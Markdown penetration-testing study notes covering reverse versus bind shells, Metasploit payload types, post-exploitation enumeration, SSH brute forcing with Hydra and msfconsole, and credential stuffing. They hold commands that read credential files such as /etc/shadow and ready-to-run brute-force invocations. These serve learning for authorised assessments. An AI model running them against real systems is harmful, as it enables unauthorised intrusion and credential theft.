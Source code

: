 # Reserve Shells vs Bind Shells
- Target connects to the listening attackbox: reverse shell  
- Attackbox connects to the listening target: bind shell  

# Staged vs Non-staged payloads
- Non-staged: sends the exploit shellcode all at once. It's larger in size and won't always work. Msfconsole example below  
```bash
windows/meterpreter_reverse_tcp
```
- Staged: Sends the payload in stages. It can be less stable. Msfconsole example below  
```bash
windows/meterpreter/reverse_tcp
```
Use both types of payloads. Whichever works for the specific scenario that we're dealing with  

# Gaining root with metasploit
- [https://www.offsec.com/metasploit-unleashed/msfconsole-commands/](https://www.offsec.com/metasploit-unleashed/msfconsole-commands/)
From the recon process, pick one to the enumerated vulnerabilities.  
Use the search function on metasploit to look for an exploit and taylor the payload to the OS and needs.  

# Manual exploitation
- Find an exploit using google

# Post exploitation
- Enumerate the host
```bash
whoami
hostname
ifconfig
ip a
arp
route
sudo -l
cat /etc/passwd
cat /etc/shadow
```

# Brute Force Attacks
- SSH: if we see it in a assessment, we will try to brute force it
    - Test password strength
        - Default passwords
        - Weak passwords
    - See if the Blue Team can detect this brute force attack

## Hydra

```bash
hydra -l username -P /path/to/wordlist protocol://ip:port -t number-of-threads -V
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.1.151 -t 4 -V
```

## msfconsole

```bash
msf > search ssh type:auxiliary
msf > use auxiliary/scanner/ssh/ssh_login
msf > options
msf > set username root
msf > set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
msf > set rhosts 192.168.1.151
msf > set threads 10 # <- noisy
msf > set verbose true
msf > run
```

# Credential Stuffing and Password Spraying

The most common way in which to get access in external assessments
Use credentials from previous/known breaches foung in the recon process
Use default credentials

